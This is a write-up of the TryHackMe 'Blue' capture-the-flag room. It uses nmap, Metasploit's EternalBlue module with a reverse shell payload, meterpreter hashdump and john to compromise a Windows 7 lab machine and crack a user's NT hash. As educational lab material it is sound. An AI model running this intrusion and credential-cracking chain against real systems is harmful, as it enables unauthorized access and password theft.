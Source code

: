 ```yaml
---
title: TryHackMe - Easy CTF - Blue
date: '2024-04-22'
tags: ['ctf', 'tryhackme', 'boot2root', 'writeup' , 'windows-exploitation', 'john']
draft: false
summary: Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

---
```


## Solution:

I know it is an old room, but the purpose of writing this write-up is to document my whole journey of learning system exploitation. In this blog, we will learn about **[CVE-2017-0144](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-0144)**

So, let's get started.

As we have been asked to identify the number of open ports below 1000, I will only scan the first 1000 ports:

```bash:nmap-command
sudo nmap -sS -Pn -A -p 1-1000 $IP -oN nmap.log
```

#### Now you may ask why we need `sudo` to do such a scan?

In Nmap, the **`-sS`** option is used to perform a TCP SYN scan. The reason why sudo privileges are often needed to run Nmap with the **`-sS`** option is because SYN scanning involves crafting and sending raw network packets, which requires low-level access to network interfaces. By default, regular users don't have permission to send raw packets, as it can potentially be misused. Therefore, using sudo allows Nmap to run with the necessary privileges to perform the scan effectively.

Scan reveals that we have 3 ports running under 1000:

![Screenshot](/static/writeups/tryhackme/blue/Untitled.png)

We know that `smb` (by default) runs on port `139` or `445`. Plus we can see that its a Windows 7 box running on service pack 1. Going down we can see smb version:

![Screenshot](/static/writeups/tryhackme/blue/Untitled1.png)

A small handy tip, usually if we come across rooms running windows OS under windows 10, it usually indicates that smb (that they are running) is vulnerable.

Based on the gathered information, it is evident that this is indeed an EternalBlue exploit room.

But lets assume, I don’t know if the machine is vulnerable or not. I can use this command to find out:

```bash:nmap-command
sudo nmap -sS -Pn -p 445 --script smb-vuln-* $IP
```

This command will tell me to which smb CVE it is vulnerable to. 

![Screenshot](/static/writeups/tryhackme/blue/Untitled2.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled4.png)

Let’s move toward exploitation phase. Start metasploit:

![Screenshot](/static/writeups/tryhackme/blue/Untitled5.png)

Search for **`eternalblue`** exploit:

![Screenshot](/static/writeups/tryhackme/blue/Untitled6.png)

We will use **`exploit/windows/smb/ms17_010_eternalblue`**

![Screenshot](/static/writeups/tryhackme/blue/Untitled7.png)

Now search for options and set the one required value (which is RHOSTS) to machine’s IP address:

![Screenshot](/static/writeups/tryhackme/blue/Untitled8.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled9.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

**`set payload windows/x64/shell/reverse_tcp`**

![Screenshot](/static/writeups/tryhackme/blue/Untitled10.png)

With that done, run the exploit!

![Screenshot](/static/writeups/tryhackme/blue/Untitled11.png)

We got the access:

![Screenshot](/static/writeups/tryhackme/blue/Untitled12.png)

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (**CTRL + Z**). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

If the issue persists, try switching the port number using the `set LPORT` option.

Moving on, now we will convert a shell to meterpreter shell. For that search `shell_to_meterpreter` in msfconsole:

![Screenshot](/static/writeups/tryhackme/blue/Untitled13.png)

We will use this script `post/multi/manage/shell_to_meterpreter`

Now search for options and set the one required value (which is SESSION) to session ID which in our case is 1 and run it:

![Screenshot](/static/writeups/tryhackme/blue/Untitled14.png)

Congrats, we have successfully upgraded our shell to a meterpreter shell:

![Screenshot](/static/writeups/tryhackme/blue/Untitled15.png)

To enter into the shell type:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
```

Now to verify that we have indeed escalated to `NT AUTHORITY\SYSTEM`, run `shell` command followed by `whoami` command:

![Screenshot](/static/writeups/tryhackme/blue/Untitled16.png)

Running `ps` command (because it is mentioned in the room to do so):

![Screenshot](/static/writeups/tryhackme/blue/Untitled17.png)

Now to migrate to a process simply type migrate and the process ID:

```
meterpreter > migrate 2480
```

In my case, it is not migrating to any process maybe because we are already nt authority\system:

![Screenshot](/static/writeups/tryhackme/blue/Untitled18.png)

Anyways let’s continue. 

Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the passwords on the machine as long as we have the correct privileges to do so:

![Screenshot](/static/writeups/tryhackme/blue/Untitled19.png)

The name of the none default user is `jon` as administrator and guest account is created by default.

Its time to crack password the password for `jon`. Save the hash of john into a file:

```bash:terminal
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash.txt
```

To crack it, I will use `john` but you can use hashcat too:

```bash:john-command
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Screenshot](/static/writeups/tryhackme/blue/Untitled20.png)

Password is `alqfna22`

Now, its time to find flags.

### Flag 1:

![Screenshot](/static/writeups/tryhackme/blue/Untitled21.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled22.png)

### Flag 2:

![Screenshot](/static/writeups/tryhackme/blue/Untitled23.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled24.png)

### Flag 3:

![Screenshot](/static/writeups/tryhackme/blue/Untitled25.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled26.png)